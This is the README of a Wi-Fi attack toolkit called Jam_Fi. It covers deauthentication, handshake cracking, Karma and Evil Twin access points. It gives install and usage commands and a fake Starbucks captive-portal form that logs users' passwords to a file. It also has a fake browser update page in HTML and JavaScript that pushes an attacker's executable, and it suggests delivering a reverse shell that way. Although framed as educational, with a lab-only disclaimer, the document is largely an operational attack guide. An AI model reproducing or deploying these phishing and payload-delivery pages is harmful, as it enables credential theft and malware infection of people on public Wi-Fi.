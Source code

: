 # 💜 Jam_Fi – Wi-Fi Chaos Tool  
by [@ekomsSavior](https://github.com/ekomsSavior)

> Built with love to teach, explore, and cause a little friendly Wi-Fi mischief. 💅

---

## ✨ What is Jam_Fi?

Jam_Fi is a powerful and playful Wi-Fi chaos and red teaming toolkit written in Python for Kali Linux. 
It's designed for educational and cybersecurity research purposes, helping you learn how attackers exploit wireless networks—and how to defend against them.

Jam_Fi includes tools for:

- Evil Twin Access Points ☠️  
- Deauthentication Attacks 💥  
- Handshake Capture & Cracking 🔓  
- Probe Request & Junk Flooding 📡  
- Karma Attacks 🧲  
- MITM HID Injection 💻  
- Fake Login Phishing with Auto-Logging 📄  
- and more...

Whether you're a beginner or advanced user, Jam_Fi gives you a hands-on way to experiment and learn in a lab setting.

---

## 🛠️ Installation

1. Clone the repo:

git clone https://github.com/ekomsSavior/JamFi
cd JamFi
Make sure you have the following installed:

sudo apt update

sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy

Run the tool:

sudo python3 jam_fi.py

*To Update periodically:
run from the Jam_fi directory on your machine:

git pull

## When Jam_fi is running you'll see:

🔹 1  Scan Clients & APs 🔍
     → Scans for nearby Wi-Fi networks (Access Points) and the clients connected to them using Scapy.

🔹 2  Deauth One Client 💥
     → Sends a deauthentication attack to disconnect a selected client from their Wi-Fi (uses scapy).

🔹 3  Deauth ALL Clients + Capture 🔓
     → Disconnects all clients from known APs and tries to capture WPA/WPA2 handshake packets.

🔹 4  Crack Captured Handshakes 🔓
     → Tries to crack saved WPA handshakes using Aircrack-ng or Hashcat if installed.

🔹 5  Probe Request Spam 📡
     → Broadcasts fake SSIDs as if clients are looking for networks, to create wireless noise.

🔹 6  Junk Packet Flood 💣
     → Sends randomized packets with fake MAC addresses to flood the airwaves and confuse devices.

🔹 7  Karma Responder 🧲
     → Responds to any probe request with a beacon frame, tricking devices into connecting.

🔹 8  Chaos Mode 💃
     → Combo mode! Runs Karma Responder, Junk Flood, and Probe Spam all at once.

🔹 9  View Loot 📁
     → Displays any saved handshakes, captured credentials, or other loot collected in the `loot/` folder.

🔹 🔟 Evil AP 👿
     → Launches a fully connectable Evil Twin Access Point with DNS redirection and phishing login page.

🔹 11 MITM HID Injection 🧠
     → Simulates a man-in-the-middle attack by redirecting users to a fake “driver install” page with mock keystroke injection.

🔹 0  Quit ❌
     → Exits JamFi and returns to your terminal.

## (*_*) Tips & Tricks for Power Users
Jam_Fi was made to be playful, powerful, and personal. Here's how you can take your JamFi chaos to the next level:

⚡ Performance Tips

💻 Optimize Wireless Interface:

Use an ALFA AWUS1900 or AWUS036ACH for better packet injection and monitoring.

Disable power-saving on your adapter:

sudo iw dev wlan0 set power_save off

Switch channels manually with:

iwconfig wlan0 channel 6
(Replace with the target AP’s channel for better deauth or handshake captures.)

📡 Make Scans Faster:

Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper()).

Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.

👿 Evil AP Customization

🎨 Customize the Captive Portal:

Edit this file to make your own fake login page:

loot/login.html

Wanna make it look like Starbucks? Just change the login.html body:

<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>

You can view your collected credentials in:

loot/creds.txt

🔐 Advanced Hack: Fake Browser Update + Payload (Optional)

Jam_Fi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required. Once a device connects to your Evil AP, you can redirect them

to a custom update page that looks legit and even downloads a file of your choosing. You control it via loot/injection.html. Here's a simple example:

<!-- loot/injection.html -->
<h2>🔒 Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>
<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>

Just place your payload or tool (like netcat, reverse_shell.exe, etc.) in the loot/ folder as fake_update.exe.

You now have a simulated Remote Code Execution (RCE) opportunity: once the user runs your downloaded file, you can initiate reverse shells or persistence — depending on your lab setup.

⚠️ Jam_Fi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine. 

## 💼 The loot/ Folder

This folder contains all the important config and phishing assets used by Evil AP and MITM modes:

File	Purpose

index.html	The default captive portal or phishing homepage

login.html	Fake login page that logs entered usernames & passwords

phish_server.py	Hosts the phishing server & saves form data to creds.txt

creds.txt	Stores submitted login form credentials (auto-created)

hostapd.conf	Used to configure and start the Evil Access Point

dnsmasq.conf	Handles DHCP and DNS for the Evil AP

dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker

hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices

injection.html	Used for MITM HID payload simulation (fake keystroke browser page)

All of these files are auto-generated if missing, so don’t stress if you delete them!

## 🚨 Disclaimer

This tool is for educational and authorized research only.

By using Jam_Fi, you agree that you are responsible for your own actions.

Do not use this tool on networks or devices you don’t have explicit permission to test.

The goal is to educate and empower—not to harm. Use wisely 💜

## 💜 Built With Love

Jam_Fi is a passion project created by @ekomsSavior

It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.

If you like JamFi, give it a ⭐️ on GitHub and share it with your hacker friends!

